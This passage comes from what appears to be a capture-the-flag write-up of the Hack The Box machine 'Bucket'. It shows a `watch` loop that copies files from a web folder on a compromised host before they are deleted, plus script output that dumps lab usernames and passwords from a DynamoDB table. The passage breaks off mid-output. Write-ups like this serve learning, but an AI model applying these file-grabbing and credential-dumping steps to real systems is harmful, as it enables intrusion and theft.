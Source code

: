 I could've used <cite><strong>Python</strong></cite> to do that but I feel more comfortable with <cite><strong>Bash</strong></cite>. Also you can notice that I added a few commands just to list and dump tables. These steps are not necessary but I wanted to be sure that every worked fine and it's always nice to have a bit of feedback on what we did. 

I ran the script before and I realized that the files inside the `/var/www/backup-app/files` folders are automaticaly removed after a few seconds so, I suggest you to use `watch` to copy these files to a temp folder on the target machine. 

So, on the target machine I did this:

{% highlight sh %}
tmp=$(mktemp -d)
watch -d "ls -l /var/www/bucket-app/files | cp -r /var/www/bucket-app/files/* $tmp" 
{% endhighlight %}

Now, on my local machine, I can run the script that I created:

{% highlight sh %}
./script.sh
{% endhighlight %}

{% highlight text %}

An error occurred (ResourceInUseException) when calling the CreateTable operation: Table already created

Error parsing parameter '--item': Invalid JSON: Expecting object: line 1 column 63 (char 62)
JSON received: {"title": {"S": "Ransomware"}, "data": {"S": "teststringvalue"}
{
    "TableNames": [
        "alerts", 
        "users"
    ]
}
PASSWORD	Management@#1@#
USERNAME	Mgmt
PASSWORD	Welcome123!
USERNAME	Cloudadm
PASSWORD	n2vM-<_K_Q:.Aa2
USERNAME	Sysadm
R0cK@kali:~/htb/bucket$ ./script-v002.sh 
{
    "TableDescription": {
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts", 
        "AttributeDefinitions": [
            {
                "AttributeName": "title", 
                "AttributeType": "S"
            }
        ], 
        "ProvisionedThroughput": {
            "NumberOfDecreasesToday": 0, 
            "WriteCapacityUnits": 5, 
            "LastIncreaseDateTime": 0.0, 
            "ReadCapacityUnits": 10, 
            "LastDecreaseDateTime": 0.0
        }, 
        "TableSizeBytes": 0, 
        "TableName": "alerts", 
        "TableStatus": "ACTIVE", 
        "KeySchema": [
            {
                "KeyType": "HASH", 
                "AttributeName": "title"
            }
        ], 